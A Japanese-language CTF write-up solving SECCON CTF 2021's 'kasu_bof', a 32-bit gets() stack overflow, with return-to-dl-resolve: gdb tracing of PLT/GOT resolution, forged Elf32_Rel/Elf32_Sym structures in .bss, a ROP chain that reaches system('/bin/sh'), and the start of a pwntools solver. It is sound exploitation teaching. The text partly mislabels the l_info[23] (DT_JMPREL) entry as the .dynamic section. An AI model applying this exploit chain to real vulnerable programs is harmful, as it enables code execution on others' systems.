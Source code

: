 ---
title: "SECCON CTF 2021 - kasu_bof Writeup"
date: 2023-02-28T10:51:55+09:00
draft: false
summary: "本記事はSECCON CTF 2021のPwn問題kasu_bofのWriteupです。"
author: "siva"
---

** 問題
*** 問題文
#+begin_example
## Question
Do you understand return-to-dl-resolve attack on 32-bit?   
#+end_example

*** 配布ファイル
- ~main.c~
- ~chall~


**** ~main.c~
#+begin_src c
    #include <stdio.h>

    int main(void) {
      char buf[0x80];
      gets(buf);
      return 0;
    }
#+end_src

**** ~chall~
#+begin_example
mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ file chall
chall: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=cb260735eeb00c173f7f530e9fae9ee3704e6c6f, for GNU/Linux 3.2.0, not stripped

mc4nf@mc4nf:~/ctf/seccon2021/pwn/kasu_bof$ checksec chall
[*] '/home/mc4nf/ctf/seccon2021/pwn/kasu_bof/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
#+end_example
実行ファイルに ~file~ コマンドと ~checksec~ を用いると、以下の特徴があることがわかる。
- x86
- SSP (Stack Smashing Protection) 無効
- Partial RELRO
      
** 方針
配布されたソースコード ( ~main.c~ )を見てみると、以下の特徴がある。
- ~char~ 型の配列 ~buf~ のサイズが ~0x80~ バイト 
- ~gets~ を使用しているため、 ~\n~ (0x0a) が入力されるまで配列 ~buf~ に任意の文字を入力可能

  
このことから、配布されたプログラムには簡単なスタックバッファオーバフローの脆弱性があることがわかる。


また、問題文に ~return to dl resolve~ という攻撃方法を使用すれば良い旨のコメントがあるため、
スタックバッファオーバフローを利用して、 ~return to dl resolve~ を用いて ~shell~ を起動できるとよさそうである。


よって、この問題以下の方針で解いていく。
1. *return to dl resolve* を利用するため、 ~.plt~ セクションからライブラリ関数のアドレスを解決するまでの流れを調査
2. 1.を踏まえて、 *return to dl resolve* を利用し、 ~shell~ を起動

** 1. return to dl resolve (ret2dl resolve)
   return to dl resolveは、ライブラリ関数のアドレスを動的に解決する際に呼び出される関数である ~_dl_runtime_resolve~ を利用し、任意のライブラリ関数を呼び出す攻撃手法である。
   
   この攻撃の流れは以下のようになる。

   1. 任意の関数(ここでは ~system("/bin/sh")~ )を呼ぶため、 ~_dl_runtime_resolve~ に読み込ませる偽の ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体のオブジェクト、および NULL終端文字列 ~"system"~ と ~"/bin/sh"~ を書き込み可能な領域に用意
   2. ~_dl_runtime_resolve~ は、引数の ~reloc_arg~ を元に ~Elf32_Rel~ 構造体を特定するため、 ~reloc_arg~ を1.で用意した ~Elf32_Rel~ 構造体のオブジェクトを指すように指定
   3. ~.plt~ の先頭にジャンプすると、 ~_dl_runtime_resolve~  が呼ばれ、1.で用意した構造体のオブジェクトを元に ~system~ のアドレスが解決され、 ~system("/bin/sh")~ が実行

   そこで、以下では、 ~.plt~ セクションからのアドレス解決の流れを説明し、どのようにして偽の構造体を作成すればよいかについて説明する。

*** ~main~ から ~gets~ が呼び出される全体の流れ
    問題のプログラムをディスアセンブルし、どのようにして ~gets~ が呼び出されているのか確認してみる。
    #+begin_src
08049180 <main>:
 8049180:       55                      push   ebp
 8049181:       89 e5                   mov    ebp,esp
 8049183:       81 ec 98 00 00 00       sub    esp,0x98
 8049189:       8d 85 7c ff ff ff       lea    eax,[ebp-0x84]
 804918f:       c7 45 fc 00 00 00 00    mov    DWORD PTR [ebp-0x4],0x0
 8049196:       89 04 24                mov    DWORD PTR [esp],eax
 8049199:       e8 a2 fe ff ff          call   8049040 <gets@plt>
 804919e:       31 c9                   xor    ecx,ecx
 80491a0:       89 85 78 ff ff ff       mov    DWORD PTR [ebp-0x88],eax
 80491a6:       89 c8                   mov    eax,ecx
 80491a8:       81 c4 98 00 00 00       add    esp,0x98
 80491ae:       5d                      pop    ebp
 80491af:       c3                      ret    
    #+end_src
    ディスアセンブルした ~main~ を見てみると、 ~0x8049199~ のアドレスにおいて、 ~gets@plt~ である ~0x8049040~ にジャンプしている。
    ~gets@plt~ は、 ~.plt~ セクションに存在するため、 ~.plt~ セクションもディスアセンブルしてみる。
    
    #+begin_src
08049040 <gets@plt>:
 8049040:       ff 25 0c c0 04 08       jmp    DWORD PTR ds:0x804c00c
 8049046:       ...
    #+end_src
    先程呼ばれた ~gets@plt~ を確認してみると、 まず ~jmp    DWORD PTR ds:0x804c00c~ で ~0x804c00c~ 番地に格納されたアドレスへジャンプしている。
    この ~0x804c00c~ のアドレスは、GOTと呼ばれる領域にあり、最終的に解決された ~gets~ のアドレスが格納される。
    
    そこで、1回目の ~gets@plt~ の呼び出し時に、GOTには何が格納されているのか確認してみる。
    #+begin_src
gef➤  hexdump  dword 0x804c00c
0x0804c00c│+0x0000   <gets@got.plt+0000> 0x08049046   
0x0804c010│+0x0004   ...
    #+end_src
    
    すると、 ~0x804c00c~ には、次の命令のアドレス ( ~0x8049046~ )がGOTに格納されていることがわかる。
    このため、引き続き ~0x8049046~ からの命令読んでいく。
    #+begin_src
08049030 <.plt>:
 8049030:       ff 35 04 c0 04 08       push   DWORD PTR ds:0x804c004
 8049036:       ff 25 08 c0 04 08       jmp    DWORD PTR ds:0x804c008
    #+end_src        
    次の命令 ~push   0x0~ では、スタックに ~0x0~ を積み、その後 ~jmp    8049030 <.plt>~ で ~.plt~ セクションの先頭にジャンプしている。
    
    ~.plt~ の先頭の命令は、 ~push   DWORD PTR ds:0x804c004~ となっており、 ~0x804c004~ に格納されている値をスタックに積む。
    そして、次の命令 ~jmp    DWORD PTR ds:0x804c008~ で ~0x804c008~ に格納されているアドレスへジャンプする。

    ここで、 ~0x804c004~ および ~0x804c008~ 番地には何が格納されているのか調べてみる。
    #+begin_src
gef➤  hexdump dword 0x804c004
0x0804c004│+0x0000   <_GLOBAL_OFFSET_TABLE_+0004> 0xf7ffd990   
0x0804c008│+0x0004   <_GLOBAL_OFFSET_TABLE_+0008> 0xf7fe7ac0   
    #+end_src
    すると、これらのアドレスはGOT先頭付近のアドレスであり、それぞれ ~0xf7ffd990~ と ~0xf7fe7ac0~ の値が格納されていることがわかる。

    まとめると、 ~.plt~ の先頭の命令では、スタックに ~0xf7ffd990~ を積み、 ~0xf7fe7ac0~ 番地へジャンプしている。
    そして、 ~0xf7fe7ac0~ へジャンプ後、 ~gets~ のアドレスが解決され、 ~gets~ が実行される。
    また、二回目以降の呼び出しのために、解決されたアドレスは、GOTへ格納される。

    以上が ~main~ から ~gets~ が実行されるまでの流れであり、 ~return to dl resolve~ をするために必要となる ~.plt~ セクション以降の流れについて以降では詳しく見ていく。
    
*** ~.plt~ セクションからアドレス解決の流れ
    さて、 ~main~ から ~gets~ が呼び出される全体像が掴めたところで、最後にジャンプしたアドレス ~0xf7fe7ac0~ から先を追ってみる。
    
    ジャンプ先の ~0xf7fe7ac0~ は ~_dl_runtime_resolve~ となっており、この関数により ~gets~ のアドレスが解決される。
     ~_dl_runtime_resolve~ は引数として ~link_map~ 構造体と、後述する ~Elf32_Rel~ 構造体へのオフセットを示す ~reloc_arg~ という2つの値を取る。

    そこで、ここから先では、 ~_dl_runtime_resolve~ を呼び出す際にスタックに積まれた ~0xf7ffd990~ を ~_dl_runtime_resolve~ の第一引数である ~link_map~ 構造体のアドレス、 ~0x0~ を第二引数である ~reloc_arg~ として扱う。

#   それでは、次に引数として渡された ~link_map~ 構造体がどのような役割を担っているのかを調査する。
   それでは、次にライブラリ関数のシンボルの解決をする際に必要な情報を含んでいるそれぞれのセクションについて調べていく。    
    # ~.plt~ セクションから、 ~link_map~ 構造体を元にそれぞれのセクションのアドレスが特定され、それぞれのセクションに含まれる情報を参照することにより、ライブラリ関数のシンボルを解決する。
    
    # そこで、以下では、 ~gets@plt~ が呼び出されてから ~gets~ のシンボルが解決されるまでの流れを示す。


#     参考
#     #+begin_example    
#         .rel.plt                         .dynsym                                           .dynstr                                    
#             |                                |                                                 |
#             |                                |                                                 |
# reloc_arg---+   reloc_arg + .rel.plt         |                                                 |
#             |                                |                                                 |
#             +-->|-----------+----------|     |                                                 |
#                 | Elf32_Rel | r_offset |     |                                                 |
#                 |           | r_info   |-----+  (r_info>>8 + .dynsym)*sizeof(Elf32_Sym)        |
#                 |-----------+----------|     |                                                 |
#                                              |                                                 |
#                                              +->|-----------+---------------------------|      |
#                                                 | Elf32_Sym | st_name                   |------+   st_name + .dynstr
#                                                 |           | st_value                  |      |
#                                                 |           | st_size                   |      |
#                                                 |           | st_info st_other st_shndx |      |
#                                                 |-----------+---------------------------|      |
#                                                                                                |
#                                                                                                +-->|-----------+----------|
#                                                                                                    | symbol    |  'gets'  |
#                                                                                                    |-----------+----------|
#     #+end_example

**** ~.dynamic~ セクション
  ~.dynamic~ セクションは、 ~.rel.plt~ や ~.dynsym~ , ~.dynstr~ セクションなどのアドレス情報を保持しているセクションである。
  
  このため、ライブラリ関数のシンボルを解決をする際は、 ~.dynamic~ セクションを最初に参照し、シンボル解決に必要な情報を含むセクションが配置されているアドレスを取得する。
  
  ~.dynamic~ セクションは、 ~Elf32_Dyn~ 構造体のオブジェクトが連続して配置されている。

  そこで、 ~Elf32_Dyn~ 構造体の定義をgdbで参照してみる。

  gdbから、構造体の定義を得るために、libcにおけるデバッグ情報を取得しておく。
   #+begin_src
$ sudo apt install libc6-dbg libc6-dbg:i386
   #+end_src

   #+begin_src
gef➤  break main
gef➤  run
gef➤  info types Elf32_Dyn
All types matching regular expression "Elf32_Dyn":

File ../elf/elf.h:
838:    typedef struct {...} Elf32_Dyn;gef➤  info types Elf32_Dyn
All types matching regular expression "Elf32_Dyn":

File ../elf/elf.h:
838:    typedef struct {...} Elf32_Dyn;
gef➤  ptype /o Elf32_Dyn
type = struct {
/*    0      |     4 */    Elf32_Sword d_tag;
/*    4      |     4 */    union {
/*                 4 */        Elf32_Word d_val;
/*                 4 */        Elf32_Addr d_ptr;

                               /* total size (bytes):    4 */
                           } d_un;

                           /* total size (bytes):    8 */
                         }
    #+end_src
  - ソースコードにおける定義
    - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L840
	# #+begin_src c
	#   typedef struct
	#   {
	#     Elf32_Sword d_tag;			/* Dynamic entry type */
	#     union
	#       {
	# 	Elf32_Word d_val;			/* Integer value */
	# 	Elf32_Addr d_ptr;			/* Address value */
	#       } d_un;
	#   } Elf32_Dyn;
	# #+end_src


  ~Elf32_Dyn~ 構造体は、 それぞれの構造体がどのセクションの何の情報を持つのかを表す識別子である ~d_tag~ と、 ~d_tag~ に対応した値を ~union~ 型として持つ。

  ここで、 ~.dynamic~ セクションを参照するため、このセクションそのもののアドレスを得るためには、 ~link_map~ 構造体の ~l_info~ フィールドを参照する必要がある。
  各セクションの情報が格納されている ~l_info~ において、インデックスは、対応した ~d_tag~ により参照される。
    - d_tagに代入されうる値の一覧
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L862
          #+begin_src c
	  /* Legal values for d_tag (dynamic entry type).  */
	  ...
	  #define DT_STRTAB	5		/* Address of string table */
	  #define DT_SYMTAB	6		/* Address of symbol table */
	  ...
	  #define DT_REL	17		/* Address of Rel relocs */
	  ...
	  #define DT_JMPREL	23		/* Address of PLT relocs */
	  ...
	  #+end_src

  そこで、次に ~link_map~ 構造体の構造と、 ~.dynamic~ セクションそのもののアドレスを解決する流れを見ていく。 
 	
    # また、このとき ~.dynamic~ セクションは、 ~d_tag~ の順番に並んでいる訳ではないことに注意。
    # - 以下の例では、 ~DT_STRTAB, DT_SYMTAB~ は8、9番目のエントリ、 ~DT_JMPREL, DT_REL~ は16、17番目のエントリに配置
    #   #+begin_src 
    #   0x0804bf14│+0x0000   <_DYNAMIC+0000> 0x00000001
    #   0x0804bf18│+0x0004   <_DYNAMIC+0004> 0x00000001
    #   ...
    #   0x0804bf54│+0x0040   <_DYNAMIC+0040> 0x00000005 // DT_STRTAB
    #   0x0804bf58│+0x0044   <_DYNAMIC+0044> 0x0804825c
    #   0x0804bf5c│+0x0048   <_DYNAMIC+0048> 0x00000006 // DT_SYMTAB
    #   0x0804bf60│+0x004c   <_DYNAMIC+004c> 0x0804820c
    #   ...
    #   0x0804bf94│+0x0080   <_DYNAMIC+0080> 0x00000017 // DT_JMPREL
    #   0x0804bf98│+0x0084   <_DYNAMIC+0084> 0x080482d8
    #   0x0804bf9c│+0x0088   <_DYNAMIC+0088> 0x00000011 // DT_REL
    #   0x0804bfa0│+0x008c   <_DYNAMIC+008c> 0x080482d0
    #   ...
    #   #+end_src

***** ~link_map~ 構造体
   ~link_map~ 構造体は、ELFファイルと実際にマッピングされたアドレスの差分や各セクションのアドレス、再配置情報を保持する構造体であり、ライブラリ関数のシンボルを解決する際に参照される。

   
   それでは、 ~link_map~ 構造体の構造を知るために、gdbを用いて定義を参照してみる。
   #+begin_src
gef➤  info types link_map
All types matching regular expression "link_map":

File ../elf/link.h:
84:	struct link_map_public;

File ../include/link.h:
91:	struct link_map;
271:	struct link_map_reldeps;

File ../sysdeps/x86/linkmap.h:
10:	struct link_map_machine;
gef➤  ptype /o struct link_map
/* offset    |  size */  type = struct link_map {
/*    0      |     4 */    Elf32_Addr l_addr;
/*    4      |     4 */    char *l_name;
/*    8      |     4 */    Elf32_Dyn *l_ld;
/*   12      |     4 */    struct link_map *l_next;
/*   16      |     4 */    struct link_map *l_prev;
/*   20      |     4 */    struct link_map *l_real;
/*   24      |     4 */    Lmid_t l_ns;
/*   28      |     4 */    struct libname_list *l_libname;
/*   32      |   308 */    Elf32_Dyn *l_info[77];
/*  340      |     4 */    const Elf32_Phdr *l_phdr;
...
   #+end_src
   - ソースコードの定義はここ
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/include/link.h#L95
     # #+begin_src c
     #   struct link_map
     #   {
     # 	 /* These first few members are part of the protocol with the debugger.
     # 	    This is the same format used in SVR4.  */

     # 	 ElfW(Addr) l_addr;		/* Difference between the address in the ELF
     # 					  file and the addresses in memory.  */
     # 	 char *l_name;		/* Absolute file name object was found in.  */
     # 	 ElfW(Dyn) *l_ld;		/* Dynamic section of the shared object.  */
     # 	 struct link_map *l_next, *l_prev; /* Chain of loaded objects.  */
     # 	 ...

     # 	 ElfW(Dyn) *l_info[DT_NUM + DT_THISPROCNUM + DT_VERSIONTAGNUM
     # 		  + DT_EXTRANUM + DT_VALNUM + DT_ADDRNUM];
     # 	 ...
     #   }
     # #+end_src
     # - ソースコード中の ~ElfW(hoge)~ のマクロは、 ~Elf32_hoge~ と展開される。
     #   - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/link.h#L28

     *return to dl resolve* において、 ~link_map~ 構造体で ~offset~ が32の位置に保持されている ~l_info~ フィールドを利用する。
      ~l_info~ は、各セクションへのアドレスを保持している。

     # 各セクションの情報が格納されている ~l_info~ において、インデックスは、対応した ~d_tag~ により参照される。
     #  - d_tagに代入されうる値の一覧
     #    - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L862
     #      #+begin_src c
     # 	  /* Legal values for d_tag (dynamic entry type).  */
     # 	  ...
     # 	  #define DT_STRTAB	5		/* Address of string table */
     # 	  #define DT_SYMTAB	6		/* Address of symbol table */
     # 	  ...
     # 	  #define DT_REL	17		/* Address of Rel relocs */
     # 	  ...
     # 	  #define DT_JMPREL	23		/* Address of PLT relocs */
     # 	  ...
     # 	  #+end_src
     # 	  
     例えば、 ~.dynamic~ セクションのアドレスを参照したい場合、 ~d_tag~ が ~DT_JMPREL~ の ~Elf32_Dyn~ 構造体を参照すればよいため、 ~l_info[23]~ とすることで参照することができる。
   
   ここで、実際にgdbを用いて ~link_map~ 構造体から ~.dynamic~ セクションのアドレスを解決してみる。

   ~_dl_runtime_resolve~ の第一引数である ~0xf7ffd990~ は ~link_map~ 構造体のアドレスであるため、 ~0xf7ffd990~ を ~link_map~ 構造体のアドレスとし、表示する。
   #+begin_src 
gef➤  set $link_map = (struct link_map*) 0xf7ffd990
gef➤  print *$link_map.l_info[23]
$5 = {
  d_tag = 0x17,
  d_un = {
    d_val = 0x80482d8,
    d_ptr = 0x80482d8
  }
}
   #+end_src

   すると ~link_map~ 構造体のそれぞれのメンバの値が確認できる。
   例えば、 ~dynamic~ セクションのアドレス情報は、 ~l_info[23]~ を参照することにより得ることができる。
   このため、これを表示してみると、 ~d_ptr~ には ~0x80482d8~ が格納されており、 ~.dynamic~ セクションのアドレスは ~0x80482d8~ だということがわかる。

   それでは、次にライブラリ関数のシンボルの解決に必要な他のセクションの情報を参照していく。

**** ~.rel.plt~ セクション
  ~rel.plt~ セクションは、解決したアドレスを格納するGOTのアドレスとシンボルの情報を得るために必要な情報を持つ。

  ~rel.plt~ セクションは、 ~Elf32_Rel~ 構造体の配列となっており、 ~Elf32_Rel~ 構造体の定義は以下のようになっている。
  #+begin_src
gef➤  info types Elf32_Rel
All types matching regular expression "Elf32_Rel":

File ../elf/elf.h:
638:    typedef struct {...} Elf32_Rel;
658:    typedef struct {...} Elf32_Rela;
gef➤  ptype /o Elf32_Rel
type = struct {
/*    0      |     4 */    Elf32_Addr r_offset;
/*    4      |     4 */    Elf32_Word r_info;

                           /* total size (bytes):    8 */
                         }
  #+end_src
    - ソースコード
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L634
      # 	#+begin_src c
      # 	  typedef struct
      # 	  {
      # 	    Elf32_Addr	r_offset;		/* Address */
      # 	    Elf32_Word	r_info;			/* Relocation type and symbol index */
      # 	  } Elf32_Rel;				
      # #+end_src
      
     ~.dynamic~ セクションから取得した ~.rel.plt~ のアドレス先をgdbでダンプしてみる。
     ここで、 ~_dl_runtime_resolve~ の第二引数である ~reloc_arg~ は、 ~.rel.plt~ セクションの先頭アドレスから、参照する ~Elf32_Rel~ 構造体までのオフセットとなっている。
    #+begin_src
gef➤  set $reloc_arg = 0x0
gef➤  set $reloc = (Elf32_Rel *)($link_map.l_info[23].d_un.d_ptr + $reloc_arg)
gef➤  print *reloc
$11 = {
  r_offset = 0x804c00c,
  r_info = 0x107
}
    #+end_src

    ここで、 ~r_offset~ はライブラリ関数のアドレスを解決後に、そのアドレスを格納するGOT領域のエントリとなる。
    このため、 ~gets~ のアドレスが解決されると、 ~0x804c00c~ にそのアドレスが格納されることになる。
	 
    ~r_info~ は、その下位8bitと残りの上位24bitそれぞれに、次のような値を保持する。
    ~r_info~ を 8 byte 右シフトすることにより、 ~.dynsym~ のインデックスを取得することができる。
      #+begin_src c
	/* How to extract and insert information held in the r_info field.  */

	#define ELF32_R_SYM(val)		((val) >> 8)
	#define ELF32_R_TYPE(val)		((val) & 0xff)
	#define ELF32_R_INFO(sym, type)	(((sym) << 8) + ((type) & 0xff))
      #+end_src
       
**** ~.dynsym~ セクション
    ~.dynsym~ セクションは、アドレス解決する関数のシンボルのサイズやオフセットなどの情報を持つ。

    また、 ~.dynsym~ セクションは、 ~Elf32_Sym~ 構造体の配列となっている。

     ~Elf32_Sym~ 構造体をgdbで参照してみる。
     #+begin_src
gef➤  info types Elf32_Sym
All types matching regular expression "Elf32_Sym":

File ../elf/elf.h:
527:    typedef struct {...} Elf32_Sym;
gef➤  ptype /o Elf32_Sym
type = struct {
/*    0      |     4 */    Elf32_Word st_name;
/*    4      |     4 */    Elf32_Addr st_value;
/*    8      |     4 */    Elf32_Word st_size;
/*   12      |     1 */    unsigned char st_info;
/*   13      |     1 */    unsigned char st_other;
/*   14      |     2 */    Elf32_Section st_shndx;

                           /* total size (bytes):   16 */
                         }
    #+end_src
    - ソースコード
      - https://elixir.bootlin.com/glibc/glibc-2.36/source/elf/elf.h#L519
	  # #+begin_src c
	  #   typedef struct
	  #   {
	  #     Elf32_Word	st_name;		/* Symbol name (string tbl index) */
	  #     Elf32_Addr	st_value;		/* Symbol value */
	  #     Elf32_Word	st_size;		/* Symbol size */
	  #     unsigned char st_info;		/* Symbol type and binding */
	  #     unsigned char st_other;		/* Symbol visibility */
	  #     Elf32_Section st_shndx;		/* Section index */
	  #   } Elf32_Sym;
          # #+end_src

     ここで、 ~st_name~ は、実際にシンボルが置かれている ~.dynstr~ セクションのオフセットを指している。
    そこで、 ~r_info~ からインデックスを計算し、実際に ~Elf32_Sym~ のアドレスを特定してみる。
    #+begin_src
gef➤  set $symtab = (Elf32_Sym *)($link_map.l_info[6].d_un.d_ptr)
gef➤  set $sym = $symtab[$reloc.r_info>>8]
gef➤  print $sym
$13 = {
  st_name = 0x1a,
  st_value = 0x0,
  st_size = 0x0,
  st_info = 0x12,
  st_other = 0x0,
  st_shndx = 0x0
}
    #+end_src
    
**** ~.dynstr~ セクション
    ~st_name~ のオフセットを ~.dynstr~ セクションのアドレスに足し合わせたアドレスが、シンボルを指すアドレスとなっている。
    # - 以下の例では、 ~l_ld~ から ~.dynsym~ セクションのアドレスを取得し、その後 ~r_info~ から取得したインデックスを元に ~.dynstr~ セクションからシンボル名を解決 ( ~reloc_arg = 0~ の ~gets~ が解決)
    #+begin_src
gef➤  set $strtab = (char *)($link_map.l_info[5].d_un.d_ptr)
gef➤  set $gets_symbol = $strtab + $sym.st_name
gef➤  print $gets_symbol
$15 = 0x8048276 "gets"
    #+end_src
    これにより、 ~link_map~ 構造体から ~gets~ のシンボルが解決されるまでの流れを把握することができた。

    そこで、次にこの流れを踏まえた上で、 ~system("/bin/sh")~ 呼び出すためのSolverを作成していく。


** 2. Solverの作成    
*** Solverの準備
    上記の流れを図にすると、それぞれのセクションと構造体とシンボルの関係は以下のようになる。
#+begin_example    
        .rel.plt                         .dynsym                                           .dynstr                                    
            |                                |                                                 |
            |                                |                                                 |
reloc_arg---+   reloc_arg + .rel.plt         |                                                 |
            |                                |                                                 |
            +-->|-----------+----------|     |                                                 |
                | Elf32_Rel | r_offset |     |                                                 |
                |           | r_info   |-----+  ((r_info>>8) + .dynsym)*sizeof(Elf32_Sym)      |
                |-----------+----------|     |                                                 |
                                             |                                                 |
                                             +->|-----------+---------------------------|      |
                                                | Elf32_Sym | st_name                   |------+   st_name + .dynstr
                                                |           | st_value                  |      |
                                                |           | st_size                   |      |
                                                |           | st_info st_other st_shndx |      |
                                                |-----------+---------------------------|      |
                                                                                               |
                                                                                               +-->|-----------+--------|
                                                                                                   | symbol    | 'gets' |
                                                                                                   |-----------+--------|
    #+end_example
    ここで、 ~reloc_arg~ にはスタックバッファオーバフローを利用して任意の値を指定することが可能なため、 ~.rel.plt~ の値から偽の ~Elf32_Rel~ 構造体を配置したアドレスまでのオフセットを設定する。
    #+begin_src python
      reloc_arg = fake_elf32_rel_addr - rel
    #+end_src
    
    また、偽の ~Elf32_Rel~ 構造体では、 ~r_info~ を 8 bitだけ右シフトした値を ~.dynsym~ を基準とした偽の ~Elf32_Sym~ 構造体へのインデックスとして使用する。
    このため、事前にインデックスを計算し、 ~Elf32_Rel~ 構造体に格納しておく。
    このとき、 ~r_info~ の下3bitが ~0b111 (0x7)~ である必要があるため、最後に ~7~ を or することで下3bitに1を立てている。

    ~r_offset~ は、解決されたアドレスが格納されるアドレスであり、通常はGOTの対応するエントリを指している。
    今回は特に関係ないものの、 ~gets~ の GOTエントリを指定しておく。    
    #+begin_src python
      r_offset = gets_got
      r_info   = ((fake_elf32_sym_addr - dynsym)//0x10)<<8 | 7
    #+end_src
    
    ~Elf32_Sym~ 構造体の ~st_name~ は、 ~.dynstr~ の値から文字列 ~"system\x00"~ のアドレスまでのオフセットを設定する。
    このため、事前にオフセットの値を計算し、 ~Elf32_Sym~ 構造体に格納しておく。

    ~st_info~ は、グローバル関数であることを指す ~0x12~ を設定しておく必要があるため、設定しておく。
    #+begin_src python
      st_name = system_symbol_addr - dynstr
      st_value = 0x0
      st_size = 0x0
      st_info = 0x12
      st_other = 0x0
      st_shndx = 0x0
    #+end_src

**** ~.bss~ 領域への作成した構造体やシンボルの格納
    ~.bss~ 領域には、以下のように作成した ~Elf32_Rel~ 構造体と ~Elf32_Sym~ 構造体、 ~"system"~ のシンボル、および ~"/bin/sh"~ の文字列を格納する。    
    #+begin_example
    |-----------+----------.bss-------------+---------|
    | Elf32_Rel | r_offset                  | 8 byte  |
    |           | r_info                    |         |
    |-----------+---------------------------+---------|
    |           |                           | 8 byte  |
    |           |                           | (align) |
    |-----------+---------------------------+---------|
    | Elf32_Sym | st_name                   | 16 byte |
    |           | st_value                  |         |
    |           | st_size                   |         |
    |           | st_info st_other st_shndx |         |
    |-----------+---------------------------+---------|
    |           |                           | 4 byte  |
    |-----------+---------------------------+---------|
    | symbol    | 'system'                  | 4 byte  |
    |-----------+---------------------------+---------|
    |           |                           | 4 byte  |
    |-----------+---------------------------+---------|
    | argment   | '/bin/sh'                 |  4byte  |
    |-----------+---------------------------+---------|
    |           |                           |         |
    #+end_example
    このとき、 ~Elf32_Sym~ 構造体は、 ~.dynsym~ セクションのアドレスから、 ~0x10~ バイトの間隔で配置されなければならないため( ~Elf32_Sym~ 構造体のサイズが ~0x10~ byteのため)、
    必要なバイト数だけalignしている。

    Solverを書くときは、事前に ~.bss~ のどのアドレスがどの構造体やシンボルに対応するか計算しておき、ROPで ~gets~ の引数として指定しておき、ROPチェインが発火後に、それぞれの構造体やシンボルを書き込んでいく。
    #+begin_src python
      fake_elf32_rel_addr = bss

      fake_elf32_sym_addr = fake_elf32_rel_addr + 0x10

      system_symbol_addr = fake_elf32_sym_addr + 0x14

      sh_string_addr = system_symbol_addr + 0x1c
    #+end_src

**** ROPチェインの作成
     あとは、用意した偽の構造体やシンボルを ~.bss~ 領域内に格納できるように、複数回 ~gets~ を呼び出す必要がある。

     そこで、 それぞれ計算しておいた領域に構造体を引数とし、 ~gets@plt~ にジャンプするROPを組む。
     x86のROPは、参考文献に挙げたセキュリティコンテストチャレンジブックが参考になる。
     
     #+begin_src python
      # padding
      buf = b'A'*0x84                 # fill stack
      buf += p32(0xdeadbeaf)          # saved_ebp

      # gets(fake_elf32_rel_addr)
      buf += p32(gets_plt)            # main return addr
      buf += p32(pop_ret)             # gets return addr
      buf += p32(fake_elf32_rel_addr) # gets arg

      # gets(fake_elf32_sym_addr)
      buf += p32(gets_plt)            # pop ret return addr
      buf += p32(pop_ret)             # gets return addr
      buf += p32(fake_elf32_sym_addr) # gets arg

      # gets(system_symbol_addr)
      buf += p32(gets_plt)            # pop ret return addr
      buf += p32(pop_ret)             # gets return addr
      buf += p32(system_symbol_addr)  # gets arg

      # gets(sh_string_addr)
      buf += p32(gets_plt)            # pop ret return addr
      buf += p32(pop_ret)             # gets return addr
      buf += p32(sh_string_addr)      # gets arg
     #+end_src

     それぞれの構造体とシンボルの書き込みを行うROPを組んだ後、偽の構造体を元にアドレスを解決させるため、 ~.plt~ セクションの先頭にジャンプする。
     このとき、 ~system~ の引数として ~"/bin/sh"~ を取れるように、 ~"/bin/sh"~ が格納されたアドレスをスタックに積んでおく。
     #+begin_src python
      # system('/bin/sh')
      buf += p32(plt)                 # pop ret return addr
      buf += p32(reloc_arg)           # reloc arg
      buf += p32(0xdeadbeef)          # system return addr
      buf += p32(sh_string_addr)      # system arg
     #+end_src

*** Solver    
    # https://github.com/Team-Enu/writeup/tree/main/seccon-ctf-2022/kasu_bof
    #+begin_src python
from pwn import *

filename = './chall'
chall = ELF(filename)

# docker-compose up
# conn = remote('localhost', 9001)
conn = process(filename)

plt = chall.get_section_by_name('.plt').header.sh_addr
bss = chall.get_section_by_name('.bss').header.sh_addr
rel = chall.get_section_by_name('.rel.plt').header.sh_addr
dynsym = chall.get_section_by_name('.dynsym').header.sh_addr
